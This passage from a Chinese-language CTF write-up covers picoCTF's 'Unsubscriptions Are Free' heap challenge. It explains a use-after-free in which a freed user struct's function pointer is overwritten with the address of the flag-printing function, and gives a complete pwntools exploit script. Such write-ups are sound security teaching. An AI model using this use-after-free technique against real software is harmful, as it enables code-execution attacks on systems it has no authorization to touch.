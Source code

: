         PIE:      No PIE (0x8048000)
    ```
    保護機制雖然沒有全開，不過應該是一個heap題
2. source code有一個`hahaexploitgobrrr` function，是print出flag的function所以我們的目標很明確，就是要想辦法踩到這個function，而`s()`/`p()`/`m()`都是無用的資訊
3. 遇到這種heap的題目，我會先看哪裡有malloc和free，確保幾個簡單的exploitation的可能性，例如uaf或double free之類的，而i function有一個free，是要註銷帳號的功能，但是main function中的`doProcess(user);`卻持續使用user這個變數，所以這個就是一個典型的UAF漏洞(我也是看了別人的WP[^uaf_wp_martin][^uaf_wp_Dvd848]後才知道他的題目已經有提示了，一開始是我想的太複雜了)，試想如果一開始我先輸入`i`，讓程式`free(user)`，接著他就會執行`doProcess(user)`也就是user指向的function pointer，如果我們可以拿到被free掉的user這個chunk然後輸入`hahaexploitgobrrr`這個function的address，那我們就可以拿到flag了
4. 所以重點來了，要怎麼拿到被free掉的chunk呢?這個程式==也很好心的==幫我們實作了`leaveMessage`這個function，他會malloc 8 bytes，其實就剛好是user的大小，所以如果要拿8 bytes的chunk他會先到Tcache搜尋，然後給我們寫一些資訊，此時我們就可以寫上`hahaexploitgobrrr`這個function的address(address的資訊可以透過`s` function得知)
5. 綜合以上資訊可以開寫script

## Exploit
```python
from pwn import *

r = process('./vuln')
# r = remote('mercury.picoctf.net', 61817)

r.recvuntil(b'(e)xit\n')
r.sendline(b'i')
r.recvuntil(b"You're leaving already(Y/N)?\n")
r.sendline(b'Y')

r.recvuntil(b'(e)xit\n')
r.sendline(b's')
r.recvuntil(b'OOP! Memory leak...0x')
hahaexploitgobrrr_addr = int(str(r.recv(7))[2:-1], 16)
success(hahaexploitgobrrr_addr)

r.recvuntil(b'(e)xit\n')
r.sendline(b'l')
r.recvuntil(b'try anyways:\n')
raw_input()
r.sendline(p64(hahaexploitgobrrr_addr))

success(f'Flag: {r.recvline().strip().decode()}')

r.close()
```
## Reference
[^uaf_wp_martin]:[ picoCTF 2021 Unsubscriptions Are Free ](https://youtu.be/ffJRcNEyApI)
[^uaf_wp_Dvd848]:[Unsubscriptions Are Free WP](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Unsubscriptions_Are_Free.md)